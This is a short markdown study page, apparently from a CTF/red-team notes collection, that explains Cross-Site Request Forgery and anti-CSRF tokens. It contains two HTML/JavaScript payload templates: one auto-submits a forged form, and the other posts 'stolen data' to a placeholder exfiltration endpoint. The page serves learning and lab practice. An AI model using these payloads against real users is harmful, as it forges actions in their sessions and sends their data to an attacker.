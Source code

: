 # Cross-Site Request Forgery

[![introductiontowebapplications](../../../../_badges/htb/introductiontowebapplications.svg)](https://academy.hackthebox.com/course/preview/introduction-to-web-applications)
[![cross-site_request_forgery_prevention](../../../../_badges/owasp/cross-site_request_forgery_prevention.svg)](https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html)
[![csrf_injection](../../../../_badges/poat/csrf_injection.svg)](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/CSRF%20Injection)
[![csrf_0_protection](../../../../_badges/rootme/web_client/csrf_0_protection.svg)](https://www.root-me.org/en/Challenges/Web-Client/CSRF-0-protection)
[![csp_bypass_inline_code](../../../../_badges/rootme/web_client/csp_bypass_inline_code.svg)](https://www.root-me.org/en/Challenges/Web-Client/CSP-Bypass-Inline-code)
[![csp_bypass_jsonp](../../../../_badges/rootme/web_client/csp_bypass_jsonp.svg)](https://www.root-me.org/en/Challenges/Web-Client/CSP-Bypass-JSONP)

<div class="row row-cols-lg-2"><div>

Fundamentally, Cross-Site Request Forgery (CSRF) refers to using the session of a user logged to a website to perform API calls without their consent. For instance, an API call to modify their password.

Many modern browsers have built-in anti-CSRF measures, such as with the `Content-Security-Policy` header ([refer to CSP](files/csp.md)).

[XSS](/cybersecurity/red-team/s3.exploitation/vulns/web/xss.md) is a common attack technique to perform a CSRF attack.

⭐ You can find payloads on [PayloadsAllTheThings/CSRF](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/CSRF%20Injection). You can test the payload with a [HTTP Requests Grabber](/cybersecurity/red-team/_knowledge/topics/request_grabber.md) first during CTFs.

📚 During CTFs, it may take between one and five minutes.
</div><div>

```html!
<form id="autosubmit" action="https://<target_form_URL>" method="post">
  <input type="text" name="xxx" value="yyy" hidden>
  <button type="submit">Submit</button>
</form>
<script>
 document.getElementById("autosubmit").submit();
</script>
```

```html!
<form id="fdata" action="//refer/to/stealing/cookies" method="POST">
<input type="hidden" id="data" name="data" value="nop" />
<input type="submit" value="Submit" />
</form>
<script defer>
document.getElementById('data').value='stolen data';
document.getElementById('fdata').submit();
</script>
```
</div></div>

<hr class="sep-both">

## Anti-CSRF Token

[![sqlmapessentials](../../../../_badges/htb/sqlmapessentials.svg)](https://academy.hackthebox.com/course/preview/sqlmap-essentials)
[![gitlabcve20237028](../../../../_badges/thm-p/gitlabcve20237028.svg)](https://tryhackme.com/r/room/gitlabcve20237028)
[![unbakedpie](../../../../_badges/thm-p/unbakedpie.svg)](https://tryhackme.com/r/room/unbakedpie)

<div class="row row-cols-lg-2"><div>

Some websites have a CSRF token, mostly attached to HTML forms, as a form of protection against CSRF attacks and other automation tools.

It's a generated value that is added to the form, often as a hidden HTML `<input>` field. It proves that someone submitting a form effectively visited the page with the form beforehand.

Many tools have built-in switches to handle/bypass such forms.
</div><div>
</div></div>